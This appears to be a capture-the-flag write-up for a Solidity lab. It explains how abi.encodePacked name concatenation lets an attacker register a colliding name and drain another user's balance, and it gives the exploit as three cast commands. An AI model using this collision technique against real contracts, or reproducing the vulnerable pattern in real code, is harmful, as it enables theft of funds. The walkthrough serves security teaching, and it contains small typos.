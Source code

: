 The setup first will register itself as "**Hubert Gallanghar**" and deposit 20 Ether alongside that. What we need to do is make the balance of "**Hubert Gallanghar**" become 0 to solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Singularity.sol";

contract Setup{
    Singularity public singular;

    constructor() payable{
        singular = new Singularity();
        singular.register{value: 20 ether}("Hubert", "Gallanghar");
    }

    function isSolved() public view returns(bool){
        return singular.checkBalance("Hubert", "Gallanghar") == 0;
    }

}
```
&nbsp;  
Now let's take a look at *Singularity.sol* to see what we can do and find the vulnerability. &nbsp;  
&nbsp;  
```solidity
mapping(bytes=>uint256) public balanceOf;
mapping(string=>mapping(string=>address)) public Member;
```
&nbsp;  &nbsp;  
We can see that it has 2 mappings for *balanceOf* that will track the balance based on the unique ID generated by *getIdentity* and *Member* that will track the address of the respective name (first name & last name). Next, let's see the functions. &nbsp;  
&nbsp;  
```solidity 
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}

function register(string memory _firstName, string memory _lastName) public payable{
    require(Member[_firstName][_lastName] == address(0), "Already Registered");
    require(msg.value > 0);
    bytes memory code = getIdentity(_firstName, _lastName);
    balanceOf[code] += msg.value;
    Member[_firstName][_lastName] = msg.sender;
}

function withdraw(string memory _firstName, string memory _lastName, uint256 _amount) public{
    require(Member[_firstName][_lastName] == msg.sender, "You cannot withraw other people money!");
    bytes memory code = getIdentity(_firstName, _lastName);
    require(balanceOf[code] - _amount >= 0, "You don't have this kind of money!");
    balanceOf[code] -= _amount;
}   

function checkBalance(string memory _firstName, string memory _lastName) public view returns(uint256){
    bytes memory code = getIdentity(_firstName, _lastName);
    return balanceOf[code];
}
```
&nbsp;  
We can see that in *getIdentity()* the unique ID generator is actually using *abi.encodePacked()*, which is not recommended due to the direct concatenation. Here is an example. &nbsp;  
&nbsp;  
```text
firstName = "Hubert"
lastName = "Gallanghar"

abi.encodePacked(firstName, lastName) -> "HuberGallanghar"
(hex form) 0x48756265727447616c6c616e67686172
```
&nbsp;  
The function will return just that, so let's say what if we register ourselves using the first names "**HubertG**" and "**allanghar**"? Yep, that's correct; we will get the same concatenation of "**HubertGallanghar**", because the return value of the *getIdentity()* is also *0x48756265727447616c6c616e67686172*. Knowing this, we can just directly register using the first name and last name of "**HubertG**" and "**allanghar**" and just send 1 ether for the registration fee. &nbsp;  
&nbsp;  
```bash
// registering with HubertG allanghar
cast send -r $RPC_URL --private-key $PK $SINGULARITY_ADDR "register(string, string)" "HubertG" "allanghar" --value 1ether

// make sure that the balance is now 21 Ether
cast call -r $RPC_URL $SINGULARITY_ADDR "checkBalance(string, string)" "HubertG" "allanghar"

// make a withdrawal of 21 Ether, emptying Hubert Gallanghar balance
cast send $RPC_URL --private-key $PK $SINGULARITY_ADDR "withdraw(string, string,uint256)" "HubertG" "allanghar" 21000000000000000000
```
&nbsp;  
Why can't we use "**Hubert**" "**Gallanghar**", since we have the same bytes? It's because the original name was owned by the setup contract, and it checks whether the name owner is us (msg.sender) or not upon withdrawal. &nbsp;  
&nbsp;  
By running the command above, we should've solved the lab.